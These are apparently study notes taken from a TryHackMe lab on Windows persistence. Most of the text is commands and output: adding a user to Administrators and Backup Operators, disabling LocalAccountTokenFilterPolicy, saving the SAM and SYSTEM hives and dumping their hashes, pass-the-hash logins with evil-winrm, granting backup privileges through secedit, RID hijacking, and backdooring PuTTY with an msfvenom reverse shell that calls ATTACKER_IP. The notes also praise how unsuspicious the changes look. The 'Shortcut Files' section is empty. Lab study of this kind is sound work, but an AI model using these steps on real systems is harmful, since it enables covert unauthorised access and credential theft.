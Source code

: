 # Windows Persistence



### Assign Group Memberships

* The direct way to make an unprivileged user gain administrative privileges is to make it part of the Administrators group. We can easily achieve this with the following command:

```
net localgroup administrators jack /add
```

* This will allow you to access the server by using RDP, WinRM or any other remote administration service available.
* Can also use the **Backup Operators** group. Users in this group won't have administrative privileges but will be allowed to **read/write any file or registry key** on the system, ignoring any configured DACL.

```
net localgroup "Backup Operators" jack /add
```

* Since this is an unprivileged account, it **cannot RDP or WinRM** back to the machine unless we **add it to the Remote Desktop Users (RDP) or Remote Management Users (WinRM)** groups. We'll use WinRM.

```
net localgroup "Remote Management Users" jack /add
```

* Check the groups and make sure they are not disabled

```
whoami /groups
GROUP INFORMATION
-----------------
Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators               Alias            S-1-5-32-551 Group used for deny only
```

* This is due to **User Account Control (UAC)**. One of the features implemented by UAC, `LocalAccountTokenFilterPolicy`, strips any local account of its administrative privileges when logging in remotely. While you can elevate your privileges through UAC from a graphical user session, if you are using WinRM, you are confined to a limited access token with no administrative privileges.
* Disable `LocalAccountTokenFilterPolicy` by changing the following registry key to 1:

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

### SAM SYSTEM Exfil / Pass The Hash

* We then proceed to make a backup of `SAM` and `SYSTEM` files and download them to our attacker machine:

```
reg save hklm\system system.bak
reg save hklm\sam sam.bak
```

* With those files, we can dump the password hashes for all users using secretsdump.py or other similar tools:

```
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x41325422ca00e6552bb6508215d8b426
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1cea1d7e8899f69e89088c4cb4bbdaa3:::
--snip--
```

* And finally, perform Pass-the-Hash to connect to the victim machine with Administrator privileges:

```
evil-winrm -i MACHINE_IP -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3
```

### Special Privileges and Security Descriptors

* A similar result to adding a user to the Backup Operators group can be achieved without modifying any group membership.
* Special groups are only special because the operating system assigns them specific privileges by default. Privileges are simply the capacity to do a task on the system itself.
* Complete list of all privileges:
* [https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
* In the case of the Backup Operators group, it has the following two privileges assigned by default:
* `SeBackupPrivilege`: The user can read any file in the system, ignoring any DACL in place.
* `SeRestorePrivilege`: The user can write any file in the system, ignoring any DACL in place.
* We can assign such privileges to any user, independent of their group memberships. To do so, we can use the `secedit` command. First, we will export the current configuration to a temporary file:

```
secedit /export /cfg config.inf
```

* We open the file and add our user to the lines in the configuration regarding the SeBackupPrivilege and SeRestorePrivilege:

![](https://user-images.githubusercontent.com/75596877/180827452-97d0b2b3-cd89-459f-95ee-4d5276a41516.png)



* We finally convert the `.inf` file into a `.sdb` file which is then used to load the configuration back into the system:

```
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf
```

* You should now have a user with equivalent privileges to any `Backup Operator`. The user still can't log into the system via WinRM, so let's do something about it.
* Instead of adding the user to the `Remote Management Users` group, we'll change the security descriptor associated with the WinRM service to allow `jack` to connect.
* Think of a security descriptor as an ACL but applied to other system facilities.
* To open the configuration window for WinRM's security descriptor, you can use the following command in **Powershell (you'll need to use the GUI session for this)**:

```
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```

* This will open a window where you can add `jack` and assign it full privileges to connect to WinRM:

![](https://user-images.githubusercontent.com/75596877/180828110-e2645cd4-a708-4e8c-b4bf-186ab3d3749c.png)



* Notice that for this user to work with the given privileges fully, you'd have to change the `LocalAccountTokenFilterPolicy` registry key
* If you check your user's group memberships, it will look like a regular user. Nothing suspicious at all!

```
net user jack
User name                    jack

Local Group Memberships      *Users
Global Group memberships     *None
```

### RID Hijacking

* When a user is created, an identifier called Relative ID (RID) is assigned to them.
* The `RID` is simply a numeric identifier representing the user across the system. When a user logs on, the `LSASS` process gets its `RID` from the `SAM` registry hive and creates an access token associated with that `RID`.
* If we can tamper with the registry value, we can make windows assign an Administrator access token to an unprivileged user by associating the same RID to both accounts.
* In any Windows system, the default Administrator account is assigned the `RID = 500`, and regular users usually have `RID >= 1000`.

```
wmic useraccount get name,sid

Name                SID
Administrator       S-1-5-21-1966530601-3185510712-10604624-500
DefaultAccount      S-1-5-21-1966530601-3185510712-10604624-503
--snip--
```

* Now we only have to assign the `RID=500` to `jack`. To do so, we need to access the `SAM` using `Regedit`. The `SAM` is restricted to the `SYSTEM` account only, so even the `Administrator` won't be able to edit it. To run `Regedit` as `SYSTEM`, we will use `psexec`.
* `PsExec64.exe -i -s regedit` From Regedit, we will go to:
* `HKLM\SAM\SAM\Domains\Account\Users\`
* We need to search for a key with its `RID` in hex `(1010 = 0x3F2)`. Under the corresponding key, there will be a value called `F`, which holds the user's effective `RID` at position `0x30`:

![](https://user-images.githubusercontent.com/75596877/180829367-5257c90e-37bc-4773-9ae2-d1a9bbb0fdc5.png)



* Notice the RID is stored using little-endian notation, so its bytes appear reversed.
* We will now replace those two bytes with the RID of Administrator in hex (500 = 0x01F4), switching around the bytes (F401):

![](https://user-images.githubusercontent.com/75596877/180829481-acd6a81c-fb14-480b-92c8-aa41539dc9f3.png)



### Executable Files

* If you find any executable laying around the desktop, the chances are high that the user might use it frequently.
* Suppose we find a shortcut to `PuTTY` lying around. If we checked the shortcut's properties, we could see that it (usually) points to `C:\Program Files\PuTTY\putty.exe`. From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.

```
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

### Shortcut Files

#### Credit:

All credit to the content of this page goes to the origional author

* [https://tryhackme.com/room/windowslocalpersistence](https://tryhackme.com/room/windowslocalpersistence)
* [https://tryhackme.com/p/munra](https://tryhackme.com/p/munra)
* [https://tryhackme.com/p/tryhackme](https://tryhackme.com/p/tryhackme)
